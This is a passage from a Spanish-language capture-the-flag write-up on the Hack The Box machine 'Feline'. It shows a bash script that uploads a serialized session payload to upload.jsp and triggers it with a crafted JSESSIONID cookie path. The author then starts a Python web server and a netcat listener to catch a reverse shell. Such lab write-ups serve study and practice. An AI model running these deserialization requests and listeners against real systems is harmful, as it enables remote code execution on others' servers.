 ```bash
sleep 1

echo -e "\n\n+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++ execute ++++++++++++++++++++++++++++++++++\n\n"

curl -X POST http://10.10.10.205:8080/upload.jsp?email=$email -H "Cookie:JSESSIONID=$route_upload/executePayload" -F 'image=@executePayload.session'
curl -X POST http://10.10.10.205:8080/upload.jsp?email=$email -H "Cookie:JSESSIONID=$route_upload/executePayload"
```

El creador del post crea un script para hacer las peticiones, vamos a copiarnos pero cambiando algunas cositas:
La forma de la petición coincide en varios ítems, solo modificaremos el header y la URL.

Él tiene como ruta donde se están guardando las muestras a `/opt/samples/uploads/`. Nosotros obtuvimos una posible ruta cuando intentamos subir una imagen, podemos probar con esa y ver que obtenemos.

Levantemos un servidor web rápidamente con `Python`, pongámonos en escucha por medio de `netcat` y ejecutemos `todotaskbro.sh`:

```bash
–» python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
–» nc -nlvp 4433
listening on [any] 4433 ...
```

Ahora si ejecutemos:

![274bash_todo_failroute](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/feline/274bash_todo_failroute.png)
